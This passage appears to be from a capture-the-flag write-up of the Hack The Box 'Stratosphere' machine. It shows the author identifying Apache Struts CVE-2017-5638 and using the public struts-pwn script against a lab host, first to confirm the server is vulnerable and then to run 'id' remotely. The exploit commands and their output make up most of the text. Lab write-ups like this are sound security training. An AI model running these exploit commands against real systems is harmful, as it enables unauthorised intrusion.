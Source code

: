 Next we try some random 404 pages and we get the following image.

![1535811802070](https://raw.githubusercontent.com/lycjackie/boot2root/master/images/stratosphere/404.png)

While exploring the pages manually, notices that all pages will end with `.action`. This give us some lead on what to search for.  Which gave us the result for `Apache Struts CVE-2017-5638 https://github.com/mazen160/struts-pwn`

## Getting Users

With the `--check` function provided by the script, we can quickly see that the server is vulnerable.

```bash
root@kali:~/Desktop/HTB/Stratosphere# python struts-pwn.py --check --url 'http://10.10.10.64:8080/Monitoring/example/Welcome.action'

[*] URL: http://10.10.10.64:8080/Monitoring/example/Welcome.action
[*] Status: Vulnerable!
[%] Done.

```



Which allow us to have some `RCE`

```
root@kali:~/Desktop/HTB/Stratosphere# python struts-pwn.py --url 'http://10.10.10.64:8080/Monitoring/example/Welcome.action' -c 'id'

[*] URL: http://10.10.10.64:8080/Monitoring/example/Welcome.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

[%] Done.

```
